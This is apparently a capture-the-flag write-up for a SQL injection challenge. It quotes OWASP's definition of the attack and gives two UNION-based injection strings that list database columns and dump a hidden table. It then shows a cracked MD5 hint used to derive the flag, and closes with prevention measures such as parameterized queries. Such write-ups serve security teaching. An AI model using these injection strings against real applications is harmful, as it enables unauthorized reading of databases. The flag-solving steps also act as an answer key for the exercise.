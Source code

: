 ## SQL Injection

[https://www.owasp.org/index.php/SQL_Injection](https://www.owasp.org/index.php/SQL_Injection)

A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application. A successful SQL injection exploit can read sensitive data from the database, modify database data (Insert/Update/Delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system and in some cases issue commands to the operating system. SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands.

### Exploit

Go to `<server>/index.php?page=searchimg`
Input `1 or 1=1 UNION select table_name, column_name FROM information_schema.columns`

Find users table with columns

Input `1 or 1=1 UNION SELECT title, comment FROM list_images`

Find hint `If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`

Follow instruction 
* decode md5 to plain text 1928e8083cf461a51303633093573c46 > albatroz
* lowercase albatroz and encode sha256

### How to Prevent

* Use of Prepared Statements (with Parameterized Queries)
* Use of Stored Procedures
* White List Input Validation
* Escaping All User Supplied Input
* Enforcing Least Privilege
* Performing White List Input Validation as a Secondary Defense